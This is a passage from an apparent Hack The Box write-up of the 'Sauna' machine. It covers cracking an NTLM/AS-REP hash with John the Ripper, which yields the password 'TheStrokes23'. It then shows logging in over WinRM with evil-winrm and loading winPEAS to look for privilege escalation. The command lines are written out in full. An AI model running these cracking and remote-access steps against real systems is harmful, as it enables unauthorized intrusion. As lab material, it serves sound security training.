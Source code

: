 We result hash NTLM for the user `fmsith`.

![Desktop View]({{ "/assets/img/sauna/HTB-Images-Sauna-asrepresult2.png" | relative_url }})

### Cracking password
***
We crack the password of the user fmsith : `TheStrokes23`

Reference - johntheripper tool : <https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c>

```terminal
$ /usr/sbin/john --wordlist=/root/Documents/wordlist/rockyou.txt /home/pcw3r/Documents/writeups/htb/sauna/hashuser.txt
```

![Desktop View]({{ "/assets/img/sauna/HTB-Images-Sauna-passwdcracking.png" | relative_url }})

### Remote Service WinRM login
***

We can connect now with evil-winrm tool. This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985).

WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

Reference - evil-winrm tool : <https://github.com/Hackplayers/evil-winrm>

### Flag user
***

![Desktop View]({{ "/assets/img/sauna/HTB-Images-Sauna-userflag.png" | relative_url }})

The exploitation is successful and we have gained a foothold.

## **<span style='color:#c0392b'>[3] Lateral Movement - Move through environment</span>**
### Plaintext Password in Autologon
***

We use winPEAS tool to search possible local privilege escalation paths.

First we need to import this tool through attribute -e in evil-winrm.

```terminal
$ ruby evil-winrm.rb -i 10.10.10.175 -u fsmith -p 'TheStrokes23' -e "/home/pcw3r/Documents/tools/.../"
PS c:\Users\FSmith\Documents> menu
PS c:\Users\FSmith\Documents> Invoke-Binary "/home/pcw3r/Documents/tools/.../winPEASany.exe" cmd fast
```
